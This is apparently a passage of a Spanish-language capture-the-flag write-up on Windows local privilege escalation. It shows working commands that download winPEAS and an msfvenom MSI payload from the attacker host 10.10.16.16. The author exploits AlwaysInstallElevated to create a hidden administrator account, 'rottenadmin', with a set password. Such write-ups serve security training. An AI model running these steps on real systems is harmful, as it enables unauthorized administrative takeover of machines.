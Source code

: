 Desde la máquina víctima vamos a obtener el binario mediante `curl`

```
C:\Users\Phoebe\Desktop>curl -O http://10.10.16.16/winpeas.exe
curl -O http://10.10.16.16/winpeas.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2332k  100 2332k    0     0  2332k      0  0:00:01  0:00:01 --:--:-- 2332k
```

`Winpeas.exe` nos ha reportado esto, lo que significa que mediante un archivo `.msi` podemos escalar privilegios

```
����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

Nos creamos un payload con `msfvenom` para añadir un `usuario privilegiado` con `permisos` de `administrador`. Esta información la podemos encontrar en [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)

```
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi                                            
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 284 bytes
Final size of msi file: 159744 bytes
Saved as: alwe.msi
```

Para `transferirnos` este `payload` a la máquina víctima nos montamos un `servidor` http con `python` en el `mismo directorio` que el `payload` creado por `msfvenom`

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `.msi`

```
C:\Users\Phoebe\Desktop>curl -O http://10.10.16.16/alwe.msi   
curl -O http://10.10.16.16/alwe.msi
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  156k  100  156k    0     0   156k      0  0:00:01 --:--:--  0:00:01  285k
```

Tras ejecutar el `.msi`, `listamos` el `usuario` que acabamos de crear

```
C:\Users\Phoebe\Desktop>net user rottenadmin
net user rottenadmin
User name                    rottenadmin
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/16/2024 6:14:58 AM
Password expires             8/27/2024 6:14:58 AM
Password changeable          7/16/2024 6:14:58 AM
Password required            Yes
```
